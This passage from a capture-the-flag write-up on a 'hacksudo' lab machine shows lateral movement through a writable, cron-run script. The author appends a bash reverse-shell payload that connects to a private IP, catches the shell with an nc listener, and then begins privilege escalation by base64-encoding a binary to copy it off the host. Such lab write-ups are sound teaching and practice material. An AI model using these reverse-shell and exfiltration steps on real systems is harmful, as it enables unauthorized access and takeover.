 ```shell
```
Then I can confirm that the `hacksudo` user is running the `hacksudo` binary, and it runs every minute, and the binary runs the script `manage.sh`, and the user `vishal` has permission to modify that file, and that means I could perform a reverse shell. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I add the following payload to the `manage.sh` file:
```shell
$ vishal@hacksudo:~$ echo "bash -c \
> 'bash -i >& /dev/tcp/192.168.2.31/1235 0>&1'" >> office/manage.sh
```
Then I get the reverse shell with the user `hacksudo`, and I can get the user flag:

![evidence](./static/20-censored-userflag.png)

## Privilege escalation

When I explore the `hacksudo`'s home directory, then I find a file called `get`. When I use the `file` command:
```shell
$ hacksudo@hacksudo:~$ file get
get: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=fdbcba2f02a8ae2d6051d0460c98dc57c5e604e3,
for GNU/Linux 3.2.0, not stripped
```
Then I can identify that it is an executable. When I encoded it to `base64`:
```shell
$ hacksudo@hacksudo:~$ cat get | base64 -w 0
```
And I copy it to the clipboard, and I paste it into CyberChef, then I can decode it on my local machine:

